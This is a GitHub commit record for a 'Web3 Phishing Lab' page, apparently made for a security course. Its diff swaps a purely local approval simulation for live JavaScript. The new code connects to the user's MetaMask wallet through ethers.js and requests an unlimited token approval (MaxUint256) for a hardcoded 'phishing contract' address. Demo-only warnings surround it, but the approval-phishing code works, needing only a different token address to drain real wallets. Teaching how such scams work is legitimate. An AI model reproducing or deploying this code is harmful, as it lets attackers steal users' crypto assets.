

Before and after one commit to david26496/Web3-Phishing-Lab, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 178-960 px from the top of the page, without its empty margins (308-971 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -1,132 +1,156 @@
-
 <!DOCTYPE html>
-<html lang="zh-TW">
+<html lang="zh-Hant">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1">
-    <title>Web3 Phishing Lab</title>
-
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>惡意合約教學示範 (DEMO ONLY)</title>
     <style>
         body {
-            font-family: Arial, sans-serif;
-            background: #f4f6f9;
-            padding: 30px;
-            color: #202534;
+            font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, Helvetica, Arial, sans-serif, 'Apple Color Emoji', 'Segoe UI Emoji', 'Segoe UI Symbol';
+            background-color: #f0f4f7;
+            color: #333;
+            margin: 0;
+            padding: 0;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            min-height: 100vh;
         }
-
         .container {
-            max-width: 600px;
-            margin: auto;
-            padding: 30px;
-            background: white;
+            max-width: 800px;
+            padding: 2rem;
+            background-color: #fff;
             border-radius: 12px;
+            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
+            margin-top: 4rem;
+            text-align: center;
         }
-
-        .warning {
-            background: #fff3cd;
-            padding: 15px;
+        .warning-box {
+            background-color: #f2dede;
+            color: #a94442;
+            border: 1px solid #ebccd1;
+            padding: 1rem;
+            margin-bottom: 1rem;
             border-radius: 8px;
+            font-weight: bold;
         }
-
-        button {
-            width: 100%;
-            padding: 12px;
-            margin: 6px 0;
+        .button {
+            padding: 0.75rem 1.5rem;
+            font-size: 1rem;
+            font-weight: 600;
+            color: #fff;
+            background-color: #d9534f;
+            border: none;
+            border-radius: 8px;
             cursor: pointer;
+            transition: background-color 0.3s;
+            margin: 0.5rem;
         }
-
-        pre {
-            background: #eef1f5;
-            padding: 15px;
-            white-space: pre-wrap;
+        .button:hover {
+            background-color: #c9302c;
         }
     </style>
 </head>
+<body>
 
-<body>
 <div class="container">
-
-    <h1>Web3 Phishing Lab</h1>
-    <p>學號：15373008</p>
-
-    <div class="warning">
-        資訊安全課程模擬實驗。
-        本頁不連接錢包、不發送鏈上交易，
-        所有餘額及授權均為模擬資料。
+    <h1>⚠️ 惡意合約教學示範 ⚠️</h1>
+    <div class="warning-box">
+        此頁面僅供學習和研究目的。<br>
+        點擊下方按鈕將**模擬一個釣魚攻擊**。<br>
+        請勿在真實錢包或與任何實際資產連接的網路中使用。
     </div>
 
-    <h2>帳戶狀態</h2>
+    <div style="margin-top: 2rem;">
+        <p>點擊下方按鈕以開始釣魚攻擊模擬。</p>
+        <button id="phishingButton" class="button">啟動釣魚攻擊 (DEMO)</button>
+    </div>
 
-    <p>Lab A：<span id="balanceA">0</span> 枚</p>
-    <p>Lab B：<span id="balanceB">1000</span> 枚</p>
-    <p>授權額度：<span id="allowance">0</span> 枚</p>
-
-    <h2>授權風險模擬</h2>
-
-    <button onclick="approve()">
-        模擬授權 1000 枚代幣
-    </button>
-
-    <button onclick="transfer()">
-        模擬依授權額度轉移代幣
-    </button>
-
-    <button onclick="revoke()">
-        模擬撤銷授權
-    </button>
-
-    <button onclick="reset()">
-        重置實驗
-    </button>
-
-    <h2>實驗日誌</h2>
-
-    <pre id="log">實驗初始化完成。</pre>
-
+    <div style="margin-top: 2rem;">
+        <p>請打開你的瀏覽器控制台 (Console) 來查看詳細步驟。</p>
+    </div>
 </div>
 
+<script src="https://unpkg.com/ethers@6/dist/ethers.umd.min.js"></script>
+
 <script>
-    let balanceA = 0;
-    let balanceB = 1000;
-    let allowance = 0;
+    // 假設你已經部署了惡意合約和 mUSDT 代幣
+    // 請將以下地址替換成你實際部署的合約地址
 
-    function render(message) {
-        document.getElementById("balanceA").textContent = balanceA;
-        document.getElementById("balanceB").textContent = balanceB;
-        document.getElementById("allowance").textContent = allowance;
-        document.getElementById("log").textContent = message;
+    // 惡意合約（Phishing Contract）地址
+    const PHISHING_CONTRACT_ADDRESS = "0x504Efaf42B34956984b5198930d58e22Db2B4faF";
+    // 你部署的 mUSDT 代幣合約地址
+    const MUSDT_CONTRACT_ADDRESS = "0x6920189E67627E306dAC7B7cDA153b671D01Df31";
+
+
+    // mUSDT 代幣的 ABI，只需要包含 approve 函數
+    const musdtABI = [
+        {
+            "inputs": [
+                { "internalType": "address", "name": "spender", "type": "address" },
+                { "internalType": "uint256", "name": "amount", "type": "uint256" }
+            ],
+            "name": "approve",
+            "outputs": [
+                { "internalType": "bool", "name": "", "type": "bool" }
+            ],
+            "stateMutability": "nonpayable",
+            "type": "function"
+        }
+    ];
+
+async function setupWeb3() {
+    if (typeof window.ethereum !== 'undefined') {
+        try {
+            // 步驟一：先請求授權來存取使用者的帳戶。
+            await window.ethereum.request({ method: 'eth_requestAccounts' });
+
+            // 步驟二：一旦授權被允許，現在才創建提供者。
+            const provider = new ethers.BrowserProvider(window.ethereum);
+            const signer = await provider.getSigner();
+
+            return { provider, signer };
+        } catch (error) {
+            console.error("Failed to connect to wallet:", error);
+            alert("連接錢包失敗。請檢查 MetaMask 或瀏覽器設定。");
+            return null;
+        }
+    } else {
+        alert("請安裝 MetaMask 錢包！");
+        return null;
     }
+}
 
-    function approve() {
-        allowance = 1000;
-        render("approve：模擬授權額度設定為 1000。");
+// 這個函數模擬了釣魚網站的行為
+async function executePhishingAttack() {
+    const web3 = await setupWeb3();
+    if (!web3) return;
+
+    try {
+        const { signer } = web3;
+
+        // 步驟一：請求無限授權
+        const musdtContract = new ethers.Contract(MUSDT_CONTRACT_ADDRESS, musdtABI, signer);
+        const amountToApprove = ethers.MaxUint256;
+
+        console.log("正在請求授權...請在錢包中確認！");
+        const approveTx = await musdtContract.approve(PHISHING_CONTRACT_ADDRESS, amountToApprove);
+
+        console.log("已發送授權交易，等待確認...");
+        await approveTx.wait();
+        console.log("授權成功！");
+
+        // 模擬攻擊者後台操作
+        console.log("授權成功！攻擊者現在可以在後台轉走你的資產。");
+
+    } catch (error) {
+        console.error("發生錯誤:", error);
+        alert("釣魚操作失敗。請檢查控制台。");
     }
+}
 
-    function transfer() {
-        if (allowance < 1000 || balanceB < 1000) {
-            render("模擬交易失敗：授權額度或餘額不足。");
-            return;
-        }
-
-        balanceB -= 1000;
-        balanceA += 1000;
-        allowance -= 1000;
-
-        render("transferFrom：模擬轉移 1000 枚代幣成功。");
-    }
-
-    function revoke() {
-        allowance = 0;
-        render("revoke：模擬授權已撤銷。");
-    }
-
-    function reset() {
-        balanceA = 0;
-        balanceB = 1000;
-        allowance = 0;
-
-        render("實驗已重置。");
-    }
+    // 綁定到頁面上的按鈕
+    document.getElementById('phishingButton').addEventListener('click', executePhishingAttack);
 </script>
 
 </body>
```
